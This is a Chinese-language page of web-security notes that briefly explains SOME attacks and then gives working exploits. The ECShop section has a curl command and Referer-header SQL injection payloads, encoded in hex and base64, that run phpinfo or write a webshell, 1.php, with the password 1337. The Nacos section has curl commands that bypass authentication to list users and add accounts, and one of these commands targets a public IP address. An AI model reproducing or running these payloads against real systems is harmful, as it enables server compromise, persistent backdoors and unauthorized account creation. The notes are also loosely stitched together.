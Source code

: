 # Web 安全

**同源方式执行（SOME）攻击**

**原理及危害**

> json可以理解为，用户可以控制输入的一种JS函数。并且这种函数可以跨域访问。这就很恐怖了。比如某些存在父子网页的并且还为做过滤，很有可能你一点击后就会自动执行某些链接，如自动关注，点赞等。

**攻击条件**
> 存在用户可控函数点，读取用户输入执行对应javascript代码（即寻找JSONP点，通常以get方法callback名传入）

**SOME复现**

通过一个大佬写的SOME靶场来练习复现:



### ECShop <= 2.x/3.6.x/3.0.x 版本远程代码执行高危漏洞利用

[ECShop <= 2.7.x 全系列版本远程代码执行高危漏洞利用](https://www.vulnspy.com/cn-ecshop-2.7.x-rce-exploit/)

[ECShop <= 2.x/3.6.x/3.0.x 版本远程代码执行高危漏洞利用](https://www.vulnspy.com/cn-ecshop-3.x.x-rce-exploit/)

**打开 ECSHOP 实验地址**

![](PHP绕过/绕过%20disable_functions/img/4.png)

**发送 Payload 执行 phpinfo();**

`将***.vsplate.me换成您的实验地址`

在终端中执行：

`curl http://***.vsplate.me/user.php -d "action=login&vulnspy=phpinfo();exit;" -H 'Referer: 45ea207d7a2b68c49582d2d22adf953aads|a:3:{s:3:"num";s:207:"*/ select 1,0x2720756e696f6e2f2a,3,4,5,6,7,8,0x7b247b2476756c6e737079275d3b6576616c2f2a2a2f286261736536345f6465636f646528275a585a686243676b5831425055315262646e5673626e4e77655630704f773d3d2729293b2f2f7d7d,0--";s:2:"id";s:9:"'"'"' union/*";s:4:"name";s:3:"ads";}45ea207d7a2b68c49582d2d22adf953a'`

EXP与一个小脚本
2.x
phpinfo():
```
Referer: 554fcae493e564ee0dc75bdf2ebf94caads|a:2:{s:3:"num";s:110:"*/ union select 1,0x27202f2a,3,4,5,6,7,8,0x7b24616263275d3b6563686f20706870696e666f2f2a2a2f28293b2f2f7d,10-- -";s:2:"id";s:4:"' /*";}554fcae493e564ee0dc75bdf2ebf94ca
```
webshell:
```
Referer: 554fcae493e564ee0dc75bdf2ebf94caads|a:2:{s:3:"num";s:280:"*/ union select 1,0x272f2a,3,4,5,6,7,8,0x7b24617364275d3b617373657274286261736536345f6465636f646528275a6d6c735a56397764585266593239756447567564484d6f4a7a4575634768774a79776e50443977614841675a585a686243676b58314250553152624d544d7a4e3130704f79412f506963702729293b2f2f7d787878,10-- -";s:2:"id";s:3:"'/*";}
```
　　会在网站根目录生成1.php，密码：1337

3.x
phpinfo():
```
Referer: 45ea207d7a2b68c49582d2d22adf953aads|a:2:{s:3:"num";s:107:"*/SELECT 1,0x2d312720554e494f4e2f2a,2,4,5,6,7,8,0x7b24617364275d3b706870696e666f0928293b2f2f7d787878,10-- -";s:2:"id";s:11:"-1' UNION/*";}45ea207d7a2b68c49582d2d22adf953a
```
webshell:
```
Referer: 45ea207d7a2b68c49582d2d22adf953aads|a:2:{s:3:"num";s:289:"*/SELECT 1,0x2d312720554e494f4e2f2a,2,4,5,6,7,8,0x7b24617364275d3b617373657274286261736536345f6465636f646528275a6d6c735a56397764585266593239756447567564484d6f4a7a4575634768774a79776e50443977614841675a585a686243676b58314250553152624d544d7a4e3130704f79412f506963702729293b2f2f7d787878,10-- -";s:2:"id";s:11:"-1' UNION/*";}45ea207d7a2b68c49582d2d22adf953a
```
会在网站根目录生成1.php，密码：1337



![LARAVEL <= V8.4.2调试模式：远程执行代码](https://www.ambionics.io/blog/laravel-debug-rce)




[nacos绕过身份验证](https://github.com/alibaba/nacos/issues/4593)

漏洞复现

1. 访问用户列表界面

```bash
curl XGET 'http://47.93.46.78:9090/nacos/v1/auth/users?pageNo=1&pageSize=9' -H 'User-Agent: Nacos-Server'


curl XGET 'http://127.0.0.1:8848/nacos/v1/auth/users?pageNo=1&pageSize=9' -H 'User-Agent: Nacos-Server'
```

此时认证被绕过，并且返回用户列表数据

```json
{
    "totalCount": 1,
    "pageNumber": 1,
    "pagesAvailable": 1,
    "pageItems": [
        {
            "username": "nacos",
            "password": "$2a$10$EuWPZHzz32dJN7jexM34MOeYirDdFAZm2kuWj7VEOJhhZkDrxfvUu"
        }
    ]
}
```

2. 添加新用户

```bash
curl -XPOST 'http://127.0.0.1:8848/nacos/v1/auth/users?username=test&password=test' -H 'User-Agent: Nacos-Server'
```

此时绕过身份验证，并添加了新用户
```json
{
    "code":200,
    "message":"create user ok!",
    "data":null
}
```


3. 再次查看用户列表

```bash
curl XGET 'http://127.0.0.1:8848/nacos/v1/auth/users?pageNo=1&pageSize=9' -H 'User-Agent: Nacos-Server'
```

此时绕过身份验证成功创建了一个用户。

```json
{
    "totalCount": 2,
    "pageNumber": 1,
    "pagesAvailable": 1,
    "pageItems": [
        {
            "username": "nacos",
            "password": "$2a$10$EuWPZHzz32dJN7jexM34MOeYirDdFAZm2kuWj7VEOJhhZkDrxfvUu"
        },
        {
            "username": "test",
            "password": "$2a$10$5Z1Kbm99AbBFN7y8Dd3.V.UGmeJX8nWKG47aPXXMuupC7kLe8lKIu"
        }
    ]
}
```

[nacos后台存在注入]

`命名空间 - 操作 - 详情 - 抓包` 1.4,1.3版本 存在该SQL注入漏洞。






